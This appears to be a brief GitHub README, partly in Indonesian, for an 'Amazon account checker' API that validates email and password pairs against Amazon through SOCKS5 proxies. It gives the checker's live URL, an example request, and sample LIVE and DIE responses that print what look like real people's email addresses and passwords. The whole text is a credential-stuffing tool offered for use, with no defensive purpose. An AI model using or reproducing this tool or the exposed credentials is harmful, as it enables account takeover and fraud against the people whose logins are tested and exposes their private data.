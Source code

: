# api amazon account checker 2018

Link : http://sayank-km.xyz/amz/start.php

Tambahkan ini ?c=tes&e= (required). Email &= (required). Password &socks

Example : http://sayank-km.xyz/amz/start.php?c=tes&e=nblh.ayu@gmail.com&p=cintaku&socks5=103.250.157.39:6667

Live : {"status":"LIVE","msg":"103.250.157.39:6667 | ikhsanfia01@gmail.com | cintaku | Security Questions | [CRE:Unlimited]","resource":["ikhsanfia01@gmail.com","cintaku"],"info":"Security Questions","checkingtime":"11.517777204514 second(s)","credits":"Unlimited","balance":null,"EmailElementID":null,"engine":[]}

Die : {"status":"DIE","engine":[],"msg":"Email not registered. | 103.5.124.245:6667 | nblh.ayu@gmail.com | cintaku | No info. | [CRE:Unlimited]","resource":["nblh.ayu@gmail.com","cintaku"],"info":"No info.","checkingtime":"11.849406003952 second(s)","credits":"Unlimited","balance":null}


Info : detect Security Questions

Thanks to http://www.osirish.com Source Code api
